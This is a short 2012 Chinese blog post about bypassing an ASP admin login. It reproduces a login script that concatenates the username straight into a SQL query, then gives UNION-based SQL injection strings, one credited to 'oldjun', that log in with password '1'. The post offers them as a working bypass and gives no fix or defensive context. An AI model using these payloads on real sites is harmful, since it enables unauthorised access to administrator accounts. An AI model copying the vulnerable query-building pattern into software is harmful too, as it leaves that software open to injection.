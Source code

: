 ```yaml
---
layout: post
status: publish
published: true
title: 万能的登陆验证代码
author: Byronlee
author_login: ginchenorlee
author_email: ginchenorlee@sina.com
wordpress_id: 29
wordpress_url: http://www.ginchenorlee.com/?p=29
date: !binary |-
  MjAxMi0wNi0wNCAxMTo1MDo1MyArMDAwMA==
date_gmt: !binary |-
  MjAxMi0wNi0wNCAxMTo1MDo1MyArMDAwMA==
categories:
- 信息安全
tags: []
comments: []
---
```

<p>最近有网友提到一种新的万能登陆密码。比如网上有很多这样的登陆验证代码：<br />
程序代码<span style="text-align: justify;">　</span></p>
<pre class="brush: actionscript3; gutter: true">&lt;%

username=trim(Request.Form(&quot;username&quot;))
password=trim(Request.Form(&quot;password&quot;))
sql=&quot;Select * FROM admin Where user=&#039;&quot;&amp;username&amp;&quot;&#039;&quot;
Set rs=Server.CreateObject(&quot;adodb.recordset&quot;)
rs.Open sql,conn,1,1
if rs.eof then
  checksysUser=FALSE
else
  passwd=trim(rs(&quot;pwd&quot;))
if passwd=password then
   Session(&quot;admin&quot;)=username
   checksysUser=TRUE
else
  checksysUser=FALSE
end if
End if
rs.close
conn.close
if checksysUser=true then
  Response.Redirect(&quot;main.asp&quot;)
else
   errmsg=&quot;&lt;font color=#FF0000&gt;&lt;b&gt;用户名输入有误，请重新输入！&lt;/b&gt;&lt;/font&gt;&quot;
end if
%&gt;</pre>
<p>先在数据库中查询用户名对应的密码，然后再和用户输入的密码对比，导致'or'='or'这样的万能登陆密码失效。</p>
<p>但如果在上面的程序中，用户名输入 程序代码</p>
<pre class="brush: actionscript3; gutter: true">&#039; UNION Select 1,1,1 FROM admin Where &#039;&#039;=&#039;</pre>
<p>，密码输入1，就可以登陆成功，原理很简单，就不多说了。</p>
<p>顺便附上oldjun的语句：</p>
<p>程序代码</p>
<pre class="brush: actionscript3; gutter: true">&#039; UNION Select 1,1,1 AS pwd FROM admin Where &#039;&#039;=&#039;</pre>
